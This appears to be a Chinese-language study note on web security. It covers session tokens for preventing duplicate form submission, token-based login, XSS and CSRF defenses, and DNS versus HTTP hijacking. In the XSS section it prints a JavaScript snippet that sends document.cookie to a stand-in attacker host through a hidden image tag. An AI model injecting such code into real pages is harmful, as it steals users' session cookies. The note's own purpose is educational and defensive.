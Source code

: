 ## token技术的功能及实现
1. 功能
    - 防止表单重复提交
    - 用来作身份验证
2. 防止表单重复提交的实现
    - 用户第一次请求表单页面，服务器生成token，并放在session中存放，将token发送给客户端
    ```
    //生成token
    UUID token = UUID.randomUUID();
    //放入session中
    request.getSeeion().setAttribute("token",token.toString())
    //放入request传到前台
    request.setAttribute("token",token)
    ```
    - 当用户第一次提交表单，将token一起发送给服务器，与后台的session中的token对比，对比成功，删除session中的token，防止表单重复提交
    ```
    //获取session中的token
    Object token1 = request.getSession().getAttribute("token");
    //获取客户端的token
    String token = request.getParameter("token");
    if(token1 == null){
        System.out.print("提交出错");
    }else if(!token1.equals(token)){
        System.out.print("提交出错");
    }else{
        System.out.print("提交成功");
        //删除session，防止重复提交
        request.getSession().removeAttribute("token");
    }
    ```
3. 基于token的身份验证
    - 客户端使用用户名跟密码请求登陆
    - 服务器端收到请求，去验证用户名和密码成功后，服务器端会签发一个token，再把这个token发送给客户端
    - 客户端收到token存储（cookie或者localStorage），然后每次请求带着token，服务端进行验证

## XSS和CSRF防御
- XSS跨站脚本（cross-site scripting）和CSRF跨站请求伪造（cross-site request forgery）都属于跨站攻击，XSS是实现CSRF诸多途径中的一条，但不是唯一一条；XSS的本质是让对方浏览器执行
你插入的js，来获取cookie等信息；而CSRF是借用户的身份，向服务器发送请求
XSS分为存储型和反射型：
    - 存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方加入代码，如果没有过滤或者
    过滤不严，那么这些代码将存储到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成
    蠕虫，盗窃cookie等
    - 反射型XSS，非持久化，需要欺骗用户自己去点击连接才能触发XSS代码执行。这种XSS代码出现在url中，作为输入
    提交到服务器，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器，最后浏览器解析执行XSS
- XSS防范
    - 客户端校验用户输入信息，只允许输入合法的值，其他一概过滤掉，防止客户端输入恶意的js代码被植入到HTML代码
    中，使得js得以执行
        - 移除用户上传的DOM属性，如onerror等
        - 移除用户上传的style节点，script节点，iframe节点等
    - 对用户输入的代码标签进行转换（html encode）
    - 对url中的参数过滤
    - 对动态输出到页面的内容进行html编码
    - 服务端对敏感的cookie设置httpOnly属性，使js脚本不能读取到cookie
    - CSP即是Content security policy
    ```
    var img = document.createElement('img')
    img.src = 'http://www.xss.com?cookie=' + document.cookie
    img.style.display = 'none'
    document.getElementByTagName('body')[0].appendChild(img)
    //这样就神不知鬼不觉的把当前用户的cookie发送给了我的恶意网站，我的恶意站点通过获取get参数就拿到了用户的cookie
    ```
    目前很多浏览器都会自身对用户的输入进行判断，检测是否存在字符攻击，比如script标签，这段代码很明显是一段xss攻击，
    因此浏览器会对这段输入进行处理，不同的浏览器处理方式也不一样。可以在浏览器中将它拦截关闭
- 跨站请求伪造的过程与防范
过程：用户小明在你的网站A上面登录了，A返回了一个SessionID（使用cookie存储），小明的浏览器保持着A站的登录状态，攻击
者小强给小明发送了一个链接地址，小明打开地址的时候，这个页面已经自动的对网站a发送一个请求，通过使用小明的cookie信息，
这样攻击者小强就可以随意更改小明在A上的信息
    - 使用token：服务器随机产生token为密钥生产一段密文，把token和密文都随cookie交给前端，前段发起请求时把密文和
    token交给后端，后端对token和密文进行验证，看token能不能生成同样的密文，这样即使黑客拿到了token也无法拿到密文
    ```
    http://www.weibo.cn?follow_uid=123&token=73ksdkfu102
    ```
    - 使用验证码：每一个重要的post提交页面，使用一个验证码，因为第三放网站无法获取验证码
    - 检测http的头信息refer。refered记录了请求的来源地址，服务器要做的验证是这个来源地址是否合法
    - 涉及敏感操作的请求改为post请求

## http劫持与dns劫持
1. 区别
    - dns劫持：你输入的网址是google.com,出来的是百度的页面；通过某些手段取得域名的解析记录控制权，进而修改
    此域名的解析结果，导致对该域名的访问由原ip地址转入到修改后的指定ip，其结果是特定网址无法访问，访问的是
    假网址
    - http劫持：你打开知乎的页面，右下角弹出的唐老师的不孕不育广告；在使用者与其目的网络服务所建立的专用数
    据通道中，监视特定数据信息，提示当满足特定条件时，就会在正常的数据流中插入精心设计的网络数据报文，目的
    是让用户端程序解释“错误”的数据，并以弹出新窗口的形式在使用者界面展示广告等类容
2. 解决办法
    - 使用https：SSL到TLS协议
    - 加密算法